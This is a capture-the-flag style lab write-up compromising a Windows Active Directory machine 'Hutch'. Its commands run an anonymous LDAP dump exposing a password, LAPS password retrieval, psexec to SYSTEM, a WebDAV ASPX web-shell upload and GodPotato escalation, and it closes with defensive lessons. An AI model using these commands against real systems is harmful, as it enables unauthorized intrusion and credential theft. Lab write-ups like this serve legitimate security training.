

## Overview

| Field                     | Value |
|---------------------------|-------|
| OS                        | Windows (Server 2019) |
| Difficulty                | Not specified |
| Attack Surface            | LDAP, IIS with WebDAV, Active Directory |
| Primary Entry Vector      | LDAP anonymous dump -> cleartext password in description field |
| Privilege Escalation Path | LAPS ms-Mcs-AdmPwd retrieval -> psexec SYSTEM / WebDAV shell + GodPotato |

## Credentials

```text
fmcsorley       CrabSharkJellyfish192
administrator   jS+6#%Dk+00]00  (via LAPS)
```

## Reconnaissance

---
💡 Why this works
This stage maps the reachable attack surface and identifies where exploitation is most likely to succeed. Accurate service and content discovery reduces blind testing and drives targeted follow-up actions.

```bash
rustscan -a $ip -r 1-65535 --ulimit 5000
```

```bash
Open 192.168.198.122:53
Open 192.168.198.122:80
Open 192.168.198.122:88
Open 192.168.198.122:135
Open 192.168.198.122:139
Open 192.168.198.122:389
Open 192.168.198.122:445
Open 192.168.198.122:5985
Open 192.168.198.122:9389
```

```bash
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
| http-webdav-scan:
|   Allowed Methods: OPTIONS, TRACE, GET, HEAD, POST, COPY, PROPFIND, DELETE, MOVE, PROPPATCH, MKCOL, LOCK, UNLOCK
|   WebDAV type: Unknown
|_  Public Options: OPTIONS, TRACE, GET, HEAD, POST, PROPFIND, PROPPATCH, MKCOL, PUT, DELETE, COPY, MOVE, LOCK, UNLOCK
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: hutch.offsec)
445/tcp   open  microsoft-ds?
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
9389/tcp  open  mc-nmf        .NET Message Framing
```

SMB anonymous login returned no shares. RPC was denied. However, LDAP anonymous bind with a full base DN dump returned all domain objects:

```bash
ldapsearch -x -H ldap://$ip -b "DC=hutch,DC=offsec" -s sub "(objectclass=*)" > ldap_dump.txt
```

```bash
cat ldap_dump.txt | grep -i pass
description: Password set to CrabSharkJellyfish192 at user's request. Please change on next login.
```

The password was found in the `description` attribute of user `fmcsorley` (Freddy McSorley).

## Initial Foothold

---
At this stage, the following command(s) are executed to progress the attack chain and validate the next hypothesis. We are specifically looking for actionable indicators such as open services, exploitability, credential exposure, or privilege boundaries. Key flags and parameters are preserved to keep the workflow reproducible for follow-along testing.

With the LDAP-obtained credentials, authenticated LDAP queries revealed LAPS (ms-Mcs-AdmPwd) was readable for the local administrator:

```bash
ldapsearch -x -H ldap://$ip -D "fmcsorley@hutch.offsec" -w 'CrabSharkJellyfish192' \
  -b "DC=hutch,DC=offsec" "(objectclass=computer)" ms-Mcs-AdmPwd
```

This returned the local administrator password. Using psexec with the admin credentials:

```bash
impacket-psexec 'hutch.offsec/administrator:jS+6#%Dk+00]00@'$ip
```

```bash
[*] Requesting shares on 192.168.198.122.....
[*] Found writable share ADMIN$
[*] Opening SVCManager on 192.168.198.122.....
C:\Windows\system32> whoami
nt authority\system
```

```bash
c:\Users\fmcsorley\Desktop> type local.txt
1dc76d8ad78f9e8711b704ca742ce7db
```

💡 Why this works
The initial access step chains discovered weaknesses into executable control over the target. Successful foothold techniques are validated by command execution or interactive shell callbacks.

## Privilege Escalation

---
The psexec approach provided a direct SYSTEM shell. As an alternative privilege escalation path, WebDAV on IIS allowed uploading an ASPX web shell:

```bash
curl -u 'hutch.offsec\fmcsorley:CrabSharkJellyfish192' \
  -X PUT http://192.168.198.122/shell.aspx --data-binary @shell.aspx -D -
```

```bash
HTTP/1.1 204 No Content
```

```bash
curl -sk "http://192.168.198.122/shell.aspx?cmd=whoami"
```

```bash
iis apppool\defaultapppool
```

GodPotato was used to escalate from the IIS app pool identity to SYSTEM:

```bash
curl -sk "http://192.168.198.122/shell.aspx?cmd=C:\Windows\Temp\GodPotato.exe+-cmd+%22cmd+/c+whoami%22"
```

```bash
nt authority\system
```

```bash
c:\Users\Administrator\Desktop> type proof.txt
b337a9db2cbe88a59254dcb9ef9c557e
```

💡 Why this works
Privilege escalation relies on local misconfigurations, unsafe permissions, and trusted execution paths. Enumerating and abusing these trust boundaries is the fastest route to root-level access.

## Lessons Learned / Key Takeaways

- Never store passwords in LDAP `description` fields — anonymous LDAP dumps will expose them.
- LAPS (`ms-Mcs-AdmPwd`) read permissions should be tightly restricted; a regular domain user should not be able to read the local admin password.
- WebDAV with PUT enabled on IIS allows unauthenticated (or low-privilege) file upload — disable or restrict WebDAV methods.
- IIS app pool identities hold `SeImpersonatePrivilege` by default, enabling potato-family attacks to SYSTEM.

### Attack Flow

---
At this stage, the following command(s) are executed to progress the attack chain and validate the next hypothesis. We are specifically looking for actionable indicators such as open services, exploitability, credential exposure, or privilege boundaries. Key flags and parameters are preserved to keep the workflow reproducible for follow-along testing.



## References

- LDAP Anonymous Bind: https://book.hacktricks.wiki/en/network-services-pentesting/pentesting-ldap.html
- LAPS (ms-Mcs-AdmPwd): https://book.hacktricks.wiki/en/windows-hardening/active-directory-methodology/laps.html
- GodPotato: https://github.com/BeichenDream/GodPotato
- Impacket psexec: https://github.com/fortra/impacket
- RustScan: https://github.com/RustScan/RustScan
- Nmap: https://nmap.org/
